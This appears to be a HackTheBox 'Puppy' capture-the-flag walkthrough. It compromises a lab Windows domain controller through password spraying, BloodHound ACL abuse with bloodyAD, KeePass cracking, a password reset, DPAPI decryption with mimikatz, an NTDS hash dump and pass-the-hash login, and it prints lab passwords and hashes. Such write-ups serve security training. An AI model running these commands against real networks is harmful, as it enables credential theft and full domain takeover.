Hey!

```bash
Target IP Address10.10.11.70     
Machine Information 
Asis common in real life pentests, you will start the Puppy box with  credentials for the following account: levi.james / KingofAkron2025!
```

## Entry

Lets start with domain and DC name

```bash
➜  Puppy nxc smb 10.10.11.70
SMB         10.10.11.70     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
```

so my etc/hosts file

```bash
➜  Puppy cat /etc/hosts                                         
[SNIP]
ff02::2 ip6-allrouters
10.10.11.70     DC.puppy.htb puppy.ht puppy.htb
```

### users-list

Lets check with credentials.



Here is for full usernames list.

### şeytan-yoklaması

i will check if some other user use this password as password

```bash
➜  Puppy nxc smb DC.puppy.htb -u users.txt -p 'KingofAkron2025!' --continue-on-success
SMB         10.10.11.70     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
SMB         10.10.11.70     445    DC               [-] PUPPY.HTB\Administrator:KingofAkron2025! STATUS_LOGON_FAILURE 
SMB         10.10.11.70     445    DC               [-] PUPPY.HTB\Guest:KingofAkron2025! STATUS_LOGON_FAILURE 
SMB         10.10.11.70     445    DC               [-] PUPPY.HTB\krbtgt:KingofAkron2025! STATUS_LOGON_FAILURE 
SMB         10.10.11.70     445    DC               [+] PUPPY.HTB\levi.james:KingofAkron2025! 
SMB         10.10.11.70     445    DC               [-] PUPPY.HTB\ant.edwards:KingofAkron2025! STATUS_LOGON_FAILURE 
SMB         10.10.11.70     445    DC               [-] PUPPY.HTB\adam.silver:KingofAkron2025! STATUS_LOGON_FAILURE 
SMB         10.10.11.70     445    DC               [-] PUPPY.HTB\jamie.williams:KingofAkron2025! STATUS_LOGON_FAILURE 
SMB         10.10.11.70     445    DC               [-] PUPPY.HTB\steph.cooper:KingofAkron2025! STATUS_LOGON_FAILURE 
SMB         10.10.11.70     445    DC               [-] PUPPY.HTB\steph.cooper_adm:KingofAkron2025! STATUS_LOGON_FAILURE 
SMB         10.10.11.70     445    DC               [-] PUPPY.HTB\:KingofAkron2025! STATUS_LOGON_FAILURE
```

### shares

lets check shares



Its seems like we need another user for this share lets check if we have ldap access and we can dump BH-data

### BH-data

```bash
➜  Puppy nxc ldap DC.puppy.htb -u levi.james -p 'KingofAkron2025!'                                                       
SMB         10.10.11.70     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
LDAP        10.10.11.70     389    DC               [+] PUPPY.HTB\levi.james:KingofAkron2025! 
➜  Puppy nxc ldap DC.puppy.htb -u levi.james -p 'KingofAkron2025!' --bloodhound --dns-server 10.10.11.70 --collection All
SMB         10.10.11.70     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
LDAP        10.10.11.70     389    DC               [+] PUPPY.HTB\levi.james:KingofAkron2025! 
LDAP        10.10.11.70     389    DC               Resolved collection methods: psremote, localadmin, dcom, container, objectprops, trusts, session, acl, rdp, group
LDAP        10.10.11.70     389    DC               Done in 00M 15S
LDAP        10.10.11.70     389    DC               Compressing output into /root/.nxc/logs/DC_10.10.11.70_2025-05-17_215035_bloodhound.zip

```

### Analyze-BH-data

### GenericWrite



Commadst to execute:

```bash
bloodyAD --host DC.puppy.htb -d puppy.htb -u levi.james -p 'KingofAkron2025!' add groupMember DEVELOPERS levi.james
```



### recovery.kdbx

nice now we have access on DEV share. Lets grab important file if we have

```bash
➜  Puppy smbclient.py puppy.htb/levi.james:'KingofAkron2025!'@10.10.11.70
Impacket v0.13.0.dev0+20250404.133223.00ced47f - Copyright Fortra, LLC and its affiliated companies 

Type help for list of commands
# use DEV
# ls
drw-rw-rw-          0  Sun Mar 23 03:07:57 2025 .
drw-rw-rw-          0  Sat Mar  8 11:52:57 2025 ..
-rw-rw-rw-   34394112  Sun Mar 23 03:09:12 2025 KeePassXC-2.7.9-Win64.msi
drw-rw-rw-          0  Sun Mar  9 16:16:16 2025 Projects
-rw-rw-rw-       2677  Tue Mar 11 22:25:46 2025 recovery.kdbx
# get recovery.kdbx
# exit
```

Okey lets crack will use

https://github.com/r3nt0n/keepass4brute

```bash
➜  keepass4brute git:(master) bash keepass4brute.sh  ../recovery.kdbx /usr/share/wordlists/rockyou.txt
keepass4brute 1.3 by r3nt0n
https://github.com/r3nt0n/keepass4brute

[+] Words tested: 36/14344392 - Attempts per minute: 90 - Estimated time remaining: 15 weeks, 5 days
[+] Current attempt: liverpool

[*] Password found: liverpool
```

and now we can grab some data

```bash
➜  keepass4brute git:(master) keepassxc-cli ls ../recovery.kdbx                           

Enter password to unlock ../recovery.kdbx: 
JAMIE WILLIAMSON
ADAM SILVER
ANTONY C. EDWARDS
STEVE TUCKER
SAMUEL BLAKE
```

There is too many things how we can be sure which one will be useful?????



lets grab it

```bash
➜  keepass4brute git:(master) keepassxc-cli show -a Password ../recovery.kdbx "ANTONY C. EDWARDS"

Enter password to unlock ../recovery.kdbx: 
Antman2025!
```

### GenericAll

commands to execute

```bash
bloodyAD --host DC.puppy.htb -d puppy.htb -u ant.edwards -p Antman2025! set password adam.silver 'Newpassword123!' 
```

but its not work why????

```bash
➜  Puppy nxc smb DC.puppy.htb -u adam.silver -p 'Newpassword123!'
SMB         10.10.11.70     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
SMB         10.10.11.70     445    DC               [-] PUPPY.HTB\adam.silver:Newpassword123! STATUS_ACCOUNT_DISABLED 
```



Its about accounts is disabled since we have **GENERICALL** on this user we can active it as we did [HTB-Vintage](https://lineeralgebra.github.io/posts/HackTheBox-Vintage/#activate-the-account)

### Active-Account

Commands to execute

```bash
bloodyAD --host DC.puppy.htb -d puppy.htb -u ant.edwards -p Antman2025! remove uac adam.silver -f ACCOUNTDISABLE
```

## User

now we can try



First of all i will check if something **not default** at C:\ tab

### realized nondefault dir



nice we found here new creds



steph.cooper : ChefSteph2025! its also work at **winrm**

## DPAPI

### 🔐 What is DPAPI?

**DPAPI (Data Protection API)**
 is a Windows feature used to securely store sensitive data like 
passwords, private keys, and credentials. It handles encryption and 
decryption without needing the developer to manage keys manually.

### ⚙️ How does DPAPI work?

- **Encryption**: Uses the user’s login credentials or system secrets to encrypt data.
- **Decryption**: Only the same user or system context can decrypt the data.
- **Security**: Tied to Windows accounts — only the original user (or admin) can access their encrypted data.

```bash
[05/17 22:24:53] beacon> dir C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials
[05/17 22:24:53] [+] Running dir (T1083)
[05/17 22:24:53] [*] Running dir (T1083)
[05/17 22:24:55] [+] host called home, sent: 5955 bytes
[05/17 22:24:55] [+] received output:
Contents of C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials\*:
	03/08/2025 07:53           <dir> .
	03/08/2025 07:40           <dir> ..
	03/08/2025 07:54             414 C8D69EBE9A43E9DEBF6B5FBD48B521B9
	                             414 Total File Size for 1 File(s)
	                                                      2 Dir(s)
```

 Noice lets grab guidMasterKey important part is guidMasterKey here

Coomands to execute

```bash
mimikatz dpapi::cred /in:C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials\C8D69EBE9A43E9DEBF6B5FBD48B521B9
```



Great now we need enc key

Commands to execute

```bash
[05/17 22:30:34] beacon> mimikatz dpapi::cred /in:C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials\C8D69EBE9A43E9DEBF6B5FBD48B521B9 /masterkey:d9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84
```



not it will decyrpt and will give us password



Now we can dump everything.

```bash
➜  Puppy nxc smb DC.puppy.htb -u steph.cooper_adm -p 'FivethChipOnItsWay2025!' --ntds 
[!] Dumping the ntds can crash the DC on Windows Server 2019. Use the option --user <user> to dump a specific user safely or the module -M ntdsutil [Y/n] Y
SMB         10.10.11.70     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
SMB         10.10.11.70     445    DC               [+] PUPPY.HTB\steph.cooper_adm:FivethChipOnItsWay2025! (Pwn3d!)
SMB         10.10.11.70     445    DC               [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         10.10.11.70     445    DC               Administrator:500:aad3b435b51404eeaad3b435b51404ee:bb0edc15e49ceb4120c7bd7e6e65d75b:::
SMB         10.10.11.70     445    DC               Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.10.11.70     445    DC               krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a4f2989236a639ef3f766e5fe1aad94a:::
SMB         10.10.11.70     445    DC               PUPPY.HTB\levi.james:1103:aad3b435b51404eeaad3b435b51404ee:ff4269fdf7e4a3093995466570f435b8:::
SMB         10.10.11.70     445    DC               PUPPY.HTB\ant.edwards:1104:aad3b435b51404eeaad3b435b51404ee:afac881b79a524c8e99d2b34f438058b:::
SMB         10.10.11.70     445    DC               PUPPY.HTB\adam.silver:1105:aad3b435b51404eeaad3b435b51404ee:a7d7c07487ba2a4b32fb1d0953812d66:::
SMB         10.10.11.70     445    DC               PUPPY.HTB\jamie.williams:1106:aad3b435b51404eeaad3b435b51404ee:bd0b8a08abd5a98a213fc8e3c7fca780:::
SMB         10.10.11.70     445    DC               PUPPY.HTB\steph.cooper:1107:aad3b435b51404eeaad3b435b51404ee:b261b5f931285ce8ea01a8613f09200b:::
SMB         10.10.11.70     445    DC               PUPPY.HTB\steph.cooper_adm:1111:aad3b435b51404eeaad3b435b51404ee:ccb206409049bc53502039b80f3f1173:::
SMB         10.10.11.70     445    DC               DC$:1000:aad3b435b51404eeaad3b435b51404ee:d5047916131e6ba897f975fc5f19c8df:::
```

and grab root.txt

```bash
➜  Puppy evil-winrm -i DC.puppy.htb -u Administrator -H bb0edc15e49ceb4120c7bd7e6e65d75b       
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..
*Evil-WinRM* PS C:\Users\Administrator> cd Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
a8b63c3aff2673105d14dc4a1ad1f3fb

```

## Creds

| username | password / hash | work at  | found from | privileges |
| --- | --- | --- | --- | --- |
| levi.james | KingofAkron2025! | smb,ldap | entry | addself Group |
| - | liverpool | recovery.kdbx | keepass4brute |  |
| ant.edwards | Antman2025! | ldap | kdbx | GenericAll |
| steph.cooper | ChefSteph2025! | winrm | backup | dpapi |
| steph.cooper_adm | FivethChipOnItsWay2025! | everywhere | dpapi | dcsync |
| Administrator | bb0edc15e49ceb4120c7bd7e6e65d75b | everywhere | ntds | DA |
